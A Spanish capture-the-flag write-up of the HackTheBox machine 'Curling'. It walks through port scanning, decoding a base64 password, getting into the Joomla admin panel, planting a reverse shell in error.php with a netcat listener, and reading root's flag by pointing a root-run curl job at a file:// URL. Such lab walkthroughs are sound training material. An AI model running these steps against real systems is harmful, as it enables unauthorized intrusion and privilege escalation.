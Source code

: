 ```yaml
---
description: '✍️ Autor: l4mje🔍 Dificultad: Fácil 📅 Fecha de creación: 08/05/2019'
---
```


# Curling

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.150
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.150
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 22 (SSH):** El puerto 22 está abierto y ejecutando OpenSSH 7.6p1 en un sistema Ubuntu Linux. Se han detectado las claves del host en los algoritmos RSA, ECDSA y ED25519, lo que indica que el sistema permite conexiones seguras mediante SSH.
* **Puerto 80 (HTTP):** El puerto 80 se encuentra abierto y ejecuta un servidor web Apache 2.4.29 en Ubuntu. Se ha detectado que el sitio utiliza Joomla! como sistema de gestión de contenidos (CMS), lo que podría ser un posible vector de ataque si existen vulnerabilidades conocidas en la versión instalada.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.10.150
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay dos usuarios posibles **Super User** y **Floris**. Revisando el código fuente encontramos una línea comentada.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando el directorio nos encontramos una contraseña puede ser codificada en **base64**.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
echo "Q3VybGluZzIwMTgh" | base64 --decode
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Escaneo para ver los directorios.

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.10.10.150/FUZZ
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un directorio que nos llama la atención llamado `/administrator`.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con las credenciales obtenidas anteriormente.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

{% embed url="https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/joomla.html" %}

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En **error.php** subimos una Reverse Shell. Nos ponemos en escucha.

```
http://10.10.10.150/templates/protostar/error.php
nc -nlvp 4444
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Mejoramos la TTY.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

No tenemos permiso para leer la flag del user. Puedo acceder al archivo `password_backup`, que parece un archivo de volcado en formato hexadecimal. El tipo de archivo es ASCII.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Usando CyberChef, podemos cargar el archivo `password_backup` para procesarlo (para procesar el volcado hexadecimal, haz clic en la varita mágica junto a 'output').

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahí está la contraseña por lo que iniciamos sesión.

```
ssh floris@10.10.10.151
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.

Descubrimos un proceso automatizado en el directorio `admin-area` que recupera datos desde una URL especificada en un archivo de entrada y almacena la salida en un archivo de reporte. Sospechamos que este proceso es ejecutado por un script que utiliza el comando `curl`, y dado que los archivos son propiedad de `root`, planteamos la posibilidad de acceder a archivos restringidos.

Tras investigar un poco, nuestra siguiente estrategia será modificar la ruta `file:///<path>/`. Primero, editaremos el archivo de entrada para que ejecute un archivo local y permitiremos que `curl` lo procese.

```bash
echo 'url = "file:///root/root.txt"' > input
cat report
```

Ya leemos así la flag.

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
